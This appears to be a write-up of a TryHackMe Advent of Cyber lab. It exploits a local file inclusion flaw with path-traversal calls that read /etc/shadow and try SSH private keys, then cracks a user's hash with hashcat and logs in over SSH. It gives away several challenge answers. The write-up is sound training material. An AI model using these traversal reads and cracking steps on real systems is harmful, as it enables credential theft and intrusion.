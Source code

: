 # TryHackMe: Advent of Cyber, LFI

__1. What is Charlie going to book a holiday to?__

__2. Read /etc/shadow and crack Charlies password__

__3. What is flag1.txt?__

-----

## LFI vulnerability

After browsing the homepade's source code, I found a Javascript excerpt at the bottom of the page.

```javascript
function getNote(note, id) {
    const url = '/get-file/' + note.replace(/\//g, '%2f')
    $.getJSON(url,  function(data) {
        document.querySelector(id).innerHTML = 
            data.info.replace(/(?:\r\n|\r|\n)/g,'<br>');
    })
}
// getNote('server.js', '#note-1')
getNote('views/notes/note1.txt', '#note-1')
getNote('views/notes/note2.txt', '#note-2')
getNote('views/notes/note3.txt', '#note-3') 
```

The function `getNote()` fires a `$.getJSON` request to the server, on url `/get-file/filenamehere`.

This can be exploited.

## LFI Exploitation

Firstly I tested that the file's would switch; and fired off the following from my browser's console.

```js
getNote('views/notes/note3.txt','#note-1')
```

And found that `#note-1`'s content changed. I think slowly LFId my way to the `/etc/shadow` file with the following command.

```js
getNote('views/notes/../../../../../etc/shadow', '#note-1')
```

This eventually returned...

```
root:*:18152:0:99999:7:::
daemon:*:18152:0:99999:7:::
bin:*:18152:0:99999:7:::
sys:*:18152:0:99999:7:::
sync:*:18152:0:99999:7:::
games:*:18152:0:99999:7:::
man:*:18152:0:99999:7:::
lp:*:18152:0:99999:7:::
mail:*:18152:0:99999:7:::
news:*:18152:0:99999:7:::
uucp:*:18152:0:99999:7:::
proxy:*:18152:0:99999:7:::
www-data:*:18152:0:99999:7:::
backup:*:18152:0:99999:7:::
list:*:18152:0:99999:7:::
irc:*:18152:0:99999:7:::
gnats:*:18152:0:99999:7:::
nobody:*:18152:0:99999:7:::
systemd-timesync:*:18152:0:99999:7:::
systemd-network:*:18152:0:99999:7:::
systemd-resolve:*:18152:0:99999:7:::
systemd-bus-proxy:*:18152:0:99999:7:::
syslog:*:18152:0:99999:7:::
_apt:*:18152:0:99999:7:::
lxd:*:18152:0:99999:7:::
messagebus:*:18152:0:99999:7:::
uuidd:*:18152:0:99999:7:::
dnsmasq:*:18152:0:99999:7:::
sshd:*:18152:0:99999:7:::
pollinate:*:18152:0:99999:7:::
ubuntu:!:18243:0:99999:7:::
charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::
```

## Attempted Looting

### SSH keys

We know that `charlie` and `ubuntu` are two potentially exploitable users. They could have SSH keys. 

```js
getNote('views/notes/../../../../../home/charlie/.ssh/id_rsa', '#note-1');
getNote('views/notes/../../../../../home/ubuntu/.ssh/id_rsa', '#note-2');
```

Though we get no response here; perhaps we don't have the appropriate permissions.

## Cracking `charlie`s password

We'll use `hashcat` for this.

```console
hashcat -a 0 -m 0 $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL. /usr/share/wordlists/fasttrack.txt
```

```console
kali@kali:~$ hashcat -a 0 -m 1800 '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4690K CPU @ 3.50GHz, 2890/2954 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit   
                 
ATTENTION! Pure (unoptimized) backend kernels selected.                                                         
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.      
If you want to switch to optimized backend kernels, append -O to your commandline.                              
See the above message to find out about the exact limits.    
                       
Watchdog: Hardware monitoring interface not found on your system.   

Watchdog: Temperature abort trigger disabled.  

Host memory required for this attack: 65 MB   

Dictionary cache hit:
* Filename..: /usr/share/wordlists/fasttrack.txt                                                                
* Passwords.: 222                 
* Bytes.....: 2006                 
* Keyspace..: 222      

$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:password1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0K...GOyhL.
Time.Started.....: Fri Sep 18 16:56:51 2020 (0 secs)
Time.Estimated...: Fri Sep 18 16:56:51 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/fasttrack.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1029 H/s (10.50ms) @ Accel:32 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 128/222 (57.66%)
Rejected.........: 0/128 (0.00%)
Restore.Point....: 0/222 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidates.#1....: Spring2017 -> god

Started: Fri Sep 18 16:56:47 2020
Stopped: Fri Sep 18 16:56:53 2020
```


## Trying to SSH into the box with our cracked credentials

We get shell!

```shell
kali@kali:~$ ssh charlie@10.10.190.17
The authenticity of host '10.10.190.17 (10.10.190.17)' can't be established.
ECDSA key fingerprint is SHA256:zTb8DQ+FkYzMQWHtrqJMlZKGR8HKhFTeSzpis26L+0s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.190.17' (ECDSA) to the list of known hosts.
charlie@10.10.190.17's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.

Last login: Fri Dec 13 21:44:29 2019 from 10.8.11.98
charlie@ip-10-10-190-17:~$ 
```

## Looting `charlie`

### Flag1.txt
```
charlie@ip-10-10-190-17:~$ ls
flag1.txt
charlie@ip-10-10-190-17:~$ cat flag1.txt 
```

### Finding when Charlie is booking his holiday..

_Read note 3_ on the homepage.